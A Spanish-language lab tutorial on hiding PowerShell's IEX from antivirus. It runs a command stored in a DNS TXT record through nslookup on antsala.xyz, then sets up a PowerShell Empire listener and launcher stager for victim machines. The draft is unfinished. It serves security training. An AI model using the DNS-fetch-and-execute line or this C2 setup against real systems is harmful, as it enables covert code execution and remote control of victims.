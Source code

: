 # Ocultar IEX para evadir al antivirus
 

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Win 11***.

TODO. introducción

## Ejercicio 1: Hacer prueba de concepto con registro TXT.

Debemos sacar del dominio a la máquina ***Win 11***. Para ello, vamos a **Settings***, ***Accounts***, ***Access work or school*** y desconectamos al equipo del dominio.

Reiniciamos y volvemos aquí.

Debemos asegurar que el servidor DNS está correctamente configurado, tal y como aclara la imagen.

![8.8.8.8 Server](../img/lab-50-C/202209142058.png)

Para saltar la detección del antivirus, la instrucción ***IEX*** no debe aparecer en el payload. Para ello hacemos una prueba de concepto por medio de un registro ***TXT*** del ***DNS***.

La siguiente imagen muestra un registro TXT, llamado ***prueba***, que contiene un texto genérico en el servidor que lleva la zona ***antsala.xyz***.

![prueba TXT](../img/lab-50-C/202209142115.png)

Abrimos una terminal de ***Powershell***, y en ella escribimos.
```
nslookup -q=txt pruebadeconcepto.antsala.xyz
```

y obtenemos lo siguiente.
Nota: Solo nos interesa la última línea de la salida del comando.

![última línea](../img/lab-50-C/202209142117.png)

Estudia la siguiente imagen. Usando ***[]*** podemos elegir la línea que nos interesa de la salida, que es la última.
Nota: ***Non-authoritative answer*** for forma parte de la salida.

![Selección línea](../img/lab-50-C/202209142122.png)

Ahora nos fijamos en el siguiente registro TXT.

![Seleccionar varias líneas](../img/lab-50-C/202209142124.png)

Observa qué ocurre cuando hacemos la consulta.
```
(nslookup -q=txt ejecutaesto.antsala.xyz)[-1]
```

En la salida podemos observar que hemos "extraído" un ***comando***.

![extracción comando](../img/lab-50-C/202209142127.png)

Vamos a ver si podemos ejecutarlo.
```
& powershell . (nslookup -q=txt ejecutaesto.antsala.xyz)[-1]
```

***Notepad*** se abre. ¿Mágico verdad? Hemos conseguido ejecutar el comando que se almacena en un registro TXT de la zona DNS.

## Ejercicio 2: Actualizar PowerShell Empire.

En la máquina ***Kali*** abrimos una terminal y ejecutamos el siguiente comando para actualizar ***PowerShell Empire***.
```
sudo apt install powershell-empire
```

Cuando haya terminado la actualización iniciamos el servidor de ***PowerShell Empire***.
```
sudo powershell-empire server
```

El servidor se inicia, como podemos ver en la siguiente imagen.

![Server iniciado](../img/lab-50-C/202209150921.png)

Es es momento de iniciar el ***Cliente*** de ***PowerShell Empire***. En una nueva terminal, escribimos.
```
powershell-empire client
```

Ya tenemos el cliente iniciado.

![Cliente iniciado](../img/lab-50-C/202209150925.png)

Vamos a crear un ***listener*** que estará a la espera de las conexiones de la víctima, que en ***PowerShell Empire*** recibe el nombre de ***agente***.
```
uselistener http
```

Aparecerá la configuración del listener, Como podrás ver, hay campos obligatorios (***required***), otros que no lo son. También se presentas campos con valores por defecto.

![Opciones del listener](../img/lab-50-C/202209150937.png)

Si revisamos la configuración, no tenemos valor para el parámetro ***Port***, que es el puerto al que conectará el ***agente*** cuando éste se inicie en la víctima. Ponemos el valor 9876.
```
set Port 9876
```

![Puerto configurado](../img/lab-50-C/202209150942.png)

Iniciamos el listener.
```
execute
```

El listener debe haberse iniciado.

![Listener iniciado](../img/lab-50-C/202209150944.png)

Vamos a usar un ***stager***, que como ya sabemos es el pequeño programa que realmente descargará en verdadero contenido malicioso en la víctima.

Tenemos una gran cantidad de ***stagers*** a nuestra disposición.

![stagers](../img/lab-50-C/202209150949.png)

Elegimos ***multi/launcher***.
```
usestager multi/launcher
```

Al seleccionar un ***stager*** aparecen sus opciones.

![Opciones del stager](../img/lab-50-C/202209150951.png)



















Actualizar powershell empire en Kali.